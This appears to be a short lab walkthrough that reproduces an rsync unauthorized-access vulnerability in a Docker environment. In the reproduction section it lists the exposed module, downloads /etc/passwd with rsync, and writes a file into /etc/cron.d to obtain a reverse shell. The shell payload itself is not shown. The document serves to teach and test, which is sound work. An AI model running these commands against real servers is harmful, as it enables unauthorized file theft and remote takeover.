



Rsync Unauthorized Access¶
Rsync is a data backup tool for Linux that supports remote file transfer through rsync protocol and ssh protocol. The rsync protocol listens on port 873 by default. If the target has enabled rsync service and hasn't configured ACL or access password, we can read and write files on the target server.
Environment Setup¶
Compile and run the rsync server:
docker compose build
docker compose up -d
After the environment starts, we can access it using the rsync command:
rsync rsync://your-ip:873/
You can view the list of module names:

Vulnerability Reproduction¶
As shown above, there is a src module. Let's list the files under this module:
rsync rsync://your-ip:873/src/

This is a Linux root directory, and we can download any file:
rsync -av rsync://your-ip:873/src/etc/passwd ./
Or write any file:
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
We wrote a cron task and successfully got a reverse shell:
